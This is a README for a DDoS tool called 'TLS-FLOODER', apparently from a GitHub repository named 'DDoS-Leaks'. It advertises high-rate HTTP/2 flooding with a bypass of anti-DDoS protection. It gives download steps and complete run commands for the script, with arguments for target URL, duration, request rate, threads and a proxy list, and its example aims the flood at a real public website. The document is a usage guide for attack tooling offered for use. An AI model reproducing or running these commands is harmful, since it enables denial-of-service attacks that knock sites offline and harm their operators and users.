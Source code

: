 ## First install the required modules

```bash
node setup.js
```
`Wait until the installation is complete`

## Next 

# Method Flooder x Bypass V3 High Request

# Update Flooder x bypass

- High Requests HTTP/2.0
- Bypass UAM HTTP/2.0
- Support %RAND%
- Support HTTP/1.1
- Bypass mode /2.0
- Smart mode /2.0

## How to use (git clone)

1. Download or git clone this repository:

    ```bash
    git clone https://github.com/DDoS-Leaks/TLS-FLOODER/
    ```

2. Navigate to the cloned repository:

    ```bash
    cd TLS-FLOODER
    ```

3. Run the `tls-bypass.js` script:

    ```bash
    node tls-bypass.js
    ```

## How to use (wget)

1. Download the `tls-bypass.js` script using wget:

    ```bash
    wget https://github.com/DDoS-Leaks/TLS-FLOODER/raw/main/tls-bypass.js
    ```

2. Run the `tls-bypass.js` script:

    ```bash
    node tls-bypass.js
    ```
    
## Run the script

```bash
node tls-bypass.js url time port rps thread proxy.txt bypass/flooder 
```

```bash
node tls-bypass.js https://google.com 300 443/80 120 10 http.txt flooder
```
